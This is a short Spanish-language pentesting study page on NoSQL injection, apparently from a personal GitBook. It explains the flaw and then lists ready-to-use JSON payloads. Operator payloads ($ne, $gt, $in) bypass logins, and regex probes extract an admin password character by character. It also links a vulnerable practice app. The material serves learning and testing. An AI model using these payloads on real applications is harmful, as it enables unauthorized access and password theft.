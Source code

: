 # NoSQL Injection

## ¿Qué es?

Las **inyecciones NoSQL** son una vulnerabilidad de seguridad en las aplicaciones web que utilizan bases de datos NoSQL, como MongoDB, Cassandra y CouchDB, entre otras. Estas inyecciones se producen cuando una aplicación web permite que un atacante envíe datos maliciosos a través de una consulta a la base de datos, que luego puede ser ejecutada por la aplicación sin la debida validación o sanitización.

La inyección NoSQL funciona de manera similar a la inyección SQL, pero se enfoca en las vulnerabilidades específicas de las bases de datos NoSQL. En una inyección NoSQL, el atacante aprovecha las consultas de la base de datos que se basan en **documentos** en lugar de tablas relacionales, para enviar datos maliciosos que pueden manipular la consulta de la base de datos y obtener información confidencial o realizar acciones no autorizadas.

A diferencia de las inyecciones SQL, las inyecciones NoSQL explotan la falta de validación de los datos en una consulta a la base de datos NoSQL, en lugar de explotar las debilidades de las consultas SQL en las **bases de datos relacionales**.

## ¿Cómo provar?



{% code overflow="wrap" %}
```json
// En peticiones json
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "admin"}, "password": {"$ne": "loquesea"}}

{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}


//Extraer información
// Ger Paswword
{"username": {"$eq": "admin"}, "password": {"$regex": "^m" }} // Checar respuesta e ir iterando la m, se puede en burp intruder

// Para saber Tamaño de contrasela, jugar con regex.{number} hasta que deje de salir errores
{"username": {"$eq": "admin"}, "password": {"$regex": ".{30}" }}

{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
```
{% endcode %}

## Laboratorio

{% embed url="https://github.com/Charlie-belmer/vulnerable-node-app" %}

## Referencias

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection" %}



